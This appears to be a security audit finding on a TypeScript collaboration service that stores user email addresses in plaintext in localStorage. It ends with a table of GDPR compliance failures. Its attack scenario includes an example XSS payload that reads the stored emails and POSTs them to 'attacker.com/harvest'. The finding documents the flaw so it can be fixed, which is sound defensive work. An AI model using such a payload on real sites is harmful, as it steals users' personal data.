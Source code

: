 #### Affected Code

**File**: `src/lib/services/CollaborationService.ts`
**Lines**: 86-88, 199

```typescript
// VULNERABLE CODE - Lines 86-88
const emailMappings = JSON.parse(localStorage.getItem('collaboratorEmailMappings') || '{}')
emailMappings[mockUserId] = userEmail  // 🔴 Storing PII in plaintext
localStorage.setItem('collaboratorEmailMappings', JSON.stringify(emailMappings))

// VULNERABLE CODE - Line 199
const emailMappings = JSON.parse(localStorage.getItem('collaboratorEmailMappings') || '{}')
```

**Stored Data Example**:
```json
{
  "dGVzdEB1c2VyLmNvbQ": "test@user.com",
  "am9obkBleGFtcGxlLmNvbQ": "john@example.com",
  "YWRtaW5AY29tcGFueS5jb20": "admin@company.com"
}
```

#### Attack Scenario

1. **XSS-based Data Exfiltration**:
```javascript
// Attacker's payload
const emails = JSON.parse(localStorage.getItem('collaboratorEmailMappings') || '{}');
const allEmails = Object.values(emails);
fetch('https://attacker.com/harvest', {
  method: 'POST',
  body: JSON.stringify({ emails: allEmails })
});
```

2. **Physical Access**: If user's device is compromised, attacker can:
   - Access browser developer tools
   - Read localStorage directly
   - Export all email addresses
   - Use for phishing/spam campaigns

3. **Third-Party Script Compromise**: If any third-party library is compromised:
   - All emails immediately accessible
   - No audit trail of access
   - Silent data breach

#### GDPR Compliance Issues

| GDPR Requirement | Status | Issue |
|------------------|--------|-------|
| Article 5(1)(f) - Security | ❌ Failed | No encryption, plaintext storage |
| Article 17 - Right to Erasure | ❌ Failed | No mechanism to delete data |
| Article 25 - Data Protection by Design | ❌ Failed | PII stored client-side unnecessarily |
| Article 32 - Security of Processing | ❌ Failed | Inappropriate technical measures |
| Article 33 - Breach Notification | ⚠️ Risk | No detection mechanism for data access |
